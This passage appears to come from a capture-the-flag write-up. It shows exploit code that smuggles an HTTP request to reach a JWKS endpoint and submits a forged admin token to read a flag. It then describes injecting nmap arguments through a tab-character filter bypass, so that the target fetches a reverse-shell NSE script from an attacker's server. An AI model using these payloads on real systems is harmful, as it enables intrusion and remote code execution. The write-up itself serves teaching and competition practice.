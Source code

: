 ```bash

http_request = """GET /post/asdf/f8badae4-0ff2-4fe8-ac15-3fc2d5b704c0 HTTP/1.1
Host: localhost
"""
http_request+="Content-Length: {}\n".format(14+len(smuggle))
	http_request+="transfer-encoding: chunked\n"
http_request+='\r\n'
http_request+="4\r\na=bs\r\n0\r\n\r\n"+smuggle
http_request+=f"""GET /{user_id}/.well-known/jwks.json HTTP/1.1
Host: localhost
"""
http_request+='\r\n'

print(http_request)

client_socket.send(http_request.encode())

response = client_socket.recv(2048)
print(response.decode())

client_socket.close()

b =requests.get(url+f"/{user_id}/.well-known/jwks.json")
headers = {"Authorization" : "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.bLHThpy3ZL1uIJNarMluJgOwkn79CS-_6GHecDByxe_Fl-Z1-y5U4fcsGgRLRBU5PVWQCefpzjtm1Kdc4dgxWbsO0lpCHwdm5Qeaqhe6eLxiBpQH_Un0OSMY2SHhjmiXlNFSDyDgpXUSemGnTnQR47K_V9h50cM8_IIx1Lbzs4w"}
print(s.get(url+"/admin/flag", headers=headers).text)
```

# **Scanner Service**

This challenge involves command injection and Nmap script exploitation. It features a Ruby web application that obtains `IP:PORT` from user input and then passes it to the Nmap command `nmap -p PORT(controllable point) IP`. 

Additionally, the application implements a filter for user input, escaping special characters, including: 

```bash
space, $ ` " \ | & ; < > ( ) ' \n *
```

Typically, injecting new Bash commands is challenging due to the strict filter. However, we can use `%09` (tab character) to replace spaces and inject new parameters, so that leveraging nmap script making it possible to execute arbitrary commands. This requires two steps:

1、Launch a http server at your remote server, just using the command `php -S 0.0.0.0:80` , and serve a reverse shell NSE script in the root directory of the PHP HTTP server you've just set up. For the reverse shell nse script, you can download from [here](https://github.com/SurajDadral/nmap-reverse-shell/blob/main/reverse_shell.nse).

2、Use the [http-fetch script](https://nmap.org/nsedoc/scripts/http-fetch.html) to download malicious nse script from our remote server. In this example, the nse script will be saved in the directory of `/tmp/OUR_REMOTE_SERVER_IP/PORT/` at the vulnerable server. The tips from the project [gtfobins](https://gtfobins.github.io/gtfobins/nmap/).
